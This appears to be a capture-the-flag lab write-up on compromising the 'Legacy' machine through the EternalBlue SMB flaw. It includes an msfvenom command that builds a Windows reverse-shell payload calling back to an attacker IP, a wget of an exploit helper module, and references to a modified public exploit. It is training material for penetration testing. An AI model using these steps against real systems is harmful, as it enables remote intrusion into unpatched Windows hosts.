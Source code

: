 ### 10.10.10.4 - Legacy

1. Initial enumeration scans found the server was running a version of SMB vulnerable to the EternalBlue exploit (CVE-2017-0143).
   ![image-20201108170832456](.Report.assets/image-20201108170832456.png)

2. I created a reverse shell payload for Windows that I planned to send using the EternalBlue exploit:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f exe -o win_revtcp_8000.exe
   ```

3. I modified the code of this (https://www.exploit-db.com/exploits/42315) EternalBlue exploit to upload and run my payload along with the whoami command to make sure I can check the user:
   ![image-20201108172332230](.Report.assets/image-20201108172332230.png)

4. To run the exploit above, I had to get a second module and put it in the same folder:

   ```bash
   wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
   ```

5. I started a netcat listener on Kali and ran the exploit to get a reverse shell as the system user:

